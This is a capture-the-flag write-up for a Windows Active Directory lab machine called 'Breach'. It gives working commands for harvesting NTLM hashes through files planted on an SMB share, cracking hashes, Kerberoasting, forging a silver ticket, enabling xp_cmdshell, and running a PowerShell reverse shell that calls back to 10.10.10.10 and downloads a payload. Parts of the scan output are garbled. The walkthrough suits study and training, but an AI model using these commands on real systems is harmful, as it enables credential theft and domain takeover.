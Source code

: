 
# Breach

## Nmap

* Nmap results

```console
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-05 12:29:47Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subjectuter_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Nam: commonName=BREACHDC.breach.vl
| Issuer: commonName=BREACHDC.breach.vl
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Compe: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-05T12:30:39+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## SMB Shares

* Listing shares

```bash
smbclient -N -L \\\\$IP\\
```

```text
Sharename Type Comment
--------- ---- -------
ADMIN$    Disk Remote Adminx
C$        Disk Default share
IPC$      IPC  Remote IPC
NETLOGON  Disk Logon server share
share     Disk 
SYSVOL    Disk Logon server share
Users     Disk
```

* Nothing useful could be found in the Users share
* Upon visiting the transfer directory in the 'share' share, we can find few users listed in the machine

```text
Users
--------
claire.pope
diana.pope
julia.wong
```

## NTLM Steal

* Hypothetically assuming that someone will visit the share every now and then we can upload a malicious doc which can relay the Logged On user's NTLM to our responder.
* To achieve this we can make use of [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

```bash
pip3 install xlsxwriter

python3 ntlm_theft.py -g all -s $attacker-ip -f test
```

* navigate to the generated directory and put these files onto the share in the transfer directory, have your responder running before these files were uploaded to the share.

```bash
smbclient -N \\\\$IP\\share

mask ""
RECURSE ON
PROMPT OFF
mput *
```

![ntlm-steal](../Images/breach-ntlm-steal.png)

## NTLM hash crack

* The captured NTLM hash can be cracked via hashcat

```bash
hashcat -m 5600 -a 0 julia-hash /usr/share/wordlists/rockyou.txt
```

* To verify if the user is pwned, we can use crackmapexec

```bash
crackmapexec smb -U julia.wong -p "password" --shares
```

![breach-julia-cme](../Images/breach-julia-cme.png)

* Upon Inspecting Julia's share we don't find anything valuable.

## BloodHound

* since the machine also has an ADDS running, bloodhound can fetch us further accounts and way to compromise them

```bash
bloodhound-python -u 'julia.wong' -p 'Password' -d breach.vl -ns $IP -c all --zip

```

* We can find the kerberoastable accounts from the report below

![breach-bloodhound](../Images/breach-bloodhound.png)

## Kerberoasting

* Kerberosting the svc_mssql account

```bash
impacket-GetUserSPNs -dc-ip breach.vl breach.vl/julia.wong:Password -request
```

## TGS hash crack

* cracking the captured TGS hash

```bash
hashcat -m 13100 -a 0 kerb-hash /usr/share/wordlists/rockyou.txt
```

* verifying the account is pwned via crackmapexec

```bash
crackmapexec smb $IP -U svc_mssql -p 'password'
```

![breach-mssql-cme](../Images/breach-svc-mssql-cme.png)

## Silver Ticket

* To craft the silver ticket we need the following things
  * Domain SID
  * NTHash of the svc_mssql (can be obtained by md5 hashing the plain text password)
  * SPN , which can be found in the TGS hash captured
* To get the Domain SID we can use lookupsid from impacket scripts

```bash
impacket-lookupsid svc_mssql:password@$Ip
```

* Forging the ticket

```bash
impacket-ticketer -nthash "69596C7AA1E8DAEE17F8E78870E25A5C" -domain-sid "S-1-5-21-2330692793-3312915120-706255856" -domain "breach.vl" -spn "MSSQLSvc/breachdc.breach.vl:1433" "administrator"
```

* Then export the ccache file

```bash
export KRB5CCNAME=administrator.ccache
```

## MSSQL

* Using impacket's mssql client now we can connect to the machines MSSQL server with our forged ticket

```bash
impacket-mssqlclient -k breachdc.breach.vl
```

![breach-mssql](../Images/breach-mssql.png)

* We can enable the xp_cmdshell to issue system commands as mentioned below

```console
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## Reverse shell via mssql

* As the machine has AntiVirus against basic reverse shells, we have to obfusicate the nishang shell as following.

```powershell
$c = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$s = $c.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex ". { $data } 2>&1" | Out-String ); $sb2 = $sb + '#';$seb = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($seb,0,$seb.Length);$s.Flush()};$c.Close()
```

```console
xp_cmdshell powershell mkdir C:\Temp\
xp_cmdshell powershell wget http://10.10.10.10/rev.ps1 -O C:\Temp\rev.ps1
xp_cmdshell powershell C:\Temp\rev.psq
```

![breach-reverseshell](../Images/breach-reverse-shell.png)

## Privilege Escalation

* as per the available privileges for the user, the SeImpersonatePrivilege can be abused to achieve System own
* We can use [God Potato](https://github.com/BeichenDream/GodPotato) for this also by modifying the the port in the previous script

![breach-root](../Images/breach-root.png)
